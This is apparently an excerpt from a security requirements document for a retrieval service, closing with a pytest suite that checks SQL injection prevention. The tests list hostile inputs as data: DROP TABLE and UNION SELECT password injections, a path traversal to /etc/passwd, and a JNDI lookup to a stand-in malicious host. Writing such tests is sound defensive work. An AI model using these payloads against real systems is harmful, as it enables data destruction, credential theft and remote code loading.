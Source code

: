 #### 1. Security Monitoring and Alerting
- SIEM integration
- Anomaly detection
- Security dashboard
- Incident response automation

#### 2. Container and Infrastructure Security
- Container security scanning
- Hardened Docker configurations
- Network segmentation
- Security policy enforcement

---

## Security Testing Requirements

### Immediate Security Tests Needed

#### 1. SQL Injection Testing Suite
```python
class TestSQLInjectionPrevention:
    """Test suite for SQL injection vulnerabilities"""
    
    def test_table_name_injection_prevention(self):
        """Test that malicious table names are rejected"""
        malicious_table_names = [
            "cwe_embeddings'; DROP TABLE users; --",
            "cwe_embeddings UNION SELECT password FROM auth_tokens --",
            "cwe_embeddings/**/UNION/**/SELECT/**/1,2,3,4,5--",
            "cwe_embeddings' OR '1'='1",
            "../../../etc/passwd",
            "${jndi:ldap://malicious.com/exploit}"
        ]
        
        for malicious_name in malicious_table_names:
            with pytest.raises((ValueError, psycopg2.Error)):
                retriever = DenseRetriever(table_name=malicious_name)
                retriever.retrieve_similar("test query", limit=5)
    
    def test_parameterized_query_safety(self):
        """Verify parameterized queries handle malicious input safely"""
        malicious_queries = [
            "'; DROP TABLE users; --",
            "' UNION SELECT password FROM users --",
            "' OR 1=1 --"
        ]
        
        for malicious_query in malicious_queries:
            # Should return empty results or safe results, not error
            results = retriever.retrieve_similar(malicious_query, limit=5)
            assert isinstance(results, list)
            # Verify no database structure modification occurred
            self.verify_database_integrity()
```
